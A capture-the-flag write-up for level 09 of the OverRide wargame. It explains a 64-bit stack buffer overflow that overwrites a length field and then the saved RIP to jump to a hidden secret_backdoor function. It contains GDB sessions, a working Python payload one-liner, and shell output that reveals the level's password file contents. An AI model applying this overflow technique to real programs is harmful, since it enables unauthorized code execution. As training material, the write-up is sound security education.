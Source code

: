 # Level 09

Once logged in, you will see a binary.

```
$ ssh localhost -p 4444 -l level09
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level09@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$ ls
level09
```

By running the program, the prompt opens for asking a name, and message to send to `@Unix-Dude`.

```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: sucho
>: Welcome, sucho
>: Msg @Unix-Dude
>>: hi
>: Msg sent!
level09@OverRide:~$
```

By decompiling the binary, there are a function that is never called named `secret_backdoor` that gets user input and stores it into the buffer (a local variable), and finally it calls the `system()` function with the buffer. The program uses `fgets()`, `printf()`, `strncpy()` throughout the program, so there may be a chance to exploit the program with buffer overflow.

In the decompiled source, we find that the `set_username` function takes `0x29` (`40`) bytes into the buffer. Because of the way the data is structured, we want to overwrite `i` to be `256` (`\xff`), so that the value initially set up, which is 140, will be able extend the copied length of `strncpy()`.

We want to overwrite the `RIP` register (64 bits version of `EIP`) to the address of the function `secret_backdoor`, and the address only will be correct once you call `run` with GDB.

```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x000000000000088c  secret_backdoor 	# no bueno
[...]
```

```
gdb-peda$ b set_username
Breakpoint 1 at 0x9d1
gdb-peda$ run
[...]
gdb-peda$ info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

Lastly, we need to find the offset to overwrite the `RIP` register. The reason we want to find `RIP` after calling `set_username` is that that's where all the input will be stored (into `buffer`).

```
   0x55555555490d <handle_msg+77>:	mov    rdi,rax
=> 0x555555554910 <handle_msg+80>:	call   0x5555555549cd <set_username>
   0x555555554915 <handle_msg+85>:	lea    rax,[rbp-0xc0]
[...]
Breakpoint 1, 0x0000555555554910 in handle_msg ()
gdb-peda$ info register rax
rax            0x7fffffffe4b0	0x7fffffffe4b0
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffe580:
 rip = 0x555555554910 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe590
 Arglist at 0x7fffffffe570, args:
 Locals at 0x7fffffffe570, Previous frame's sp is 0x7fffffffe580
 Saved registers:
  rbp at 0x7fffffffe570, rip at 0x7fffffffe578
gdb-peda$ p/d 0x7fffffffe578 - 0x7fffffffe4b0
$4 = 200
```

So, the offset is `200`.

Our payload will be structured as follows:
```
// // Provided for readability
// struct {
//		char buf_1[140];
//		char buf_2[40];
//		unsigned int num;
// };

# pseudocode
[First 40 bytes random character] + [a value to overwrite a variable `num` in the struct] + [fill up rest of the buffer] + [address for function `secret_backdoor`]

# working it out
"A"*40 + 256(it can be any) + "B" * 200 (the offset) + 0x000055555555488c

# prepping for action
python -c 'import struct; print "A"*40 + "\xff\n" + "B"*200 + struct.pack("L", 0x000055555555488c)' # I stands for unsigned int, L stands for unsigned long

# ready for action!
(python -c 'import struct; print "A"*40 + "\xff\n" + "B"*200 + struct.pack("L", 0x000055555555488c)'; cat -) | ./level09
```

And now in action!

```
level09@OverRide:~$ (python -c 'import struct; print "A"*40 + "\xff\n" + "B"*200 + struct.pack("L", 0x000055555555488c)'; cat -) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/$(whoami)/.pass
Segmentation fault (core dumped)
level09@OverRide:~$ (python -c 'import struct; print "A"*40 + "\xff\n" + "B"*200 + struct.pack("L", 0x000055555555488c)'; cat -) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/$(whoami)/.pass

j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
level09@OverRide:~$
level09@OverRide:~$ su end
Password:
end@OverRide:~$ ls
end
end@OverRide:~$ ./end
./end: line 1: GG: command not found
end@OverRide:~$
```

gg, Override!

```
  ________  ________
 /  _____/ /  _____/
/   \  ___/   \  ___
\    \_\  \    \_\  \
 \______  /\______  /
        \/        \/
```
